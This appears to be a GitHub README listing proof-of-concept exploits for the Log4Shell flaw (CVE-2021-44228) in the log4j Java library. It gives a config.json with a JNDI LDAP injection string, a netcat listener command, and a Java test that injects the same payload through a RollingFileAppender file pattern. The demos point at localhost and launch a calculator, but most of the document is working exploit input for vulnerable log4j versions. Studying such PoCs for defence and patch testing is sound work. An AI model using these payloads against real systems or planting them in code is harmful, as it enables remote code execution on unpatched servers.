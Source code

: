 # Poc List For log4j Library

This projects is a poc list for *log4j* java library, which extends default poc for CVE-2021-44228. Required version <= 2.14.0

## Pre-Requirements

**config.json**

```
{
  "injectedObject": {
    "injectedProperty": "${jndi:ldap://127.0.0.1:7777/Basic/Command/calc}"
  }
}
```

**run ldpa server**
```
nc -l -p 7777
```

## Pocs for FileManager Tree

**RollingFileManager.build()**

```
@Test
    public void buildRollingFileManager(){
        PatternLayout layout = PatternLayout.newBuilder()
                .withConfiguration(new DefaultConfiguration())
                .withPattern("%d{HH:mm:ss.SSS} [%t] %-5level %logger{36} - %msg%n")
                .build();

        RollingFileAppender appender = RollingFileAppender.newBuilder().setConfiguration(new DefaultConfiguration())
                .withFileName("app.log")
                .withFilePattern("${jndi:ldap://127.0.0.1:7777/Basic/Command/calc}")
                .setLayout(layout)
                .withAppend(true)
                .setName("RollingFile")
                .withPolicy(OnStartupTriggeringPolicy.createPolicy(1))
                .withStrategy(DefaultRolloverStrategy.newBuilder()
                        .withMax(String.valueOf(3))
                        .withConfig(new DefaultConfiguration())
                        .withFileIndex("min")
                        .build())
                .build();

        appender.getManager().rollover();
    }
```
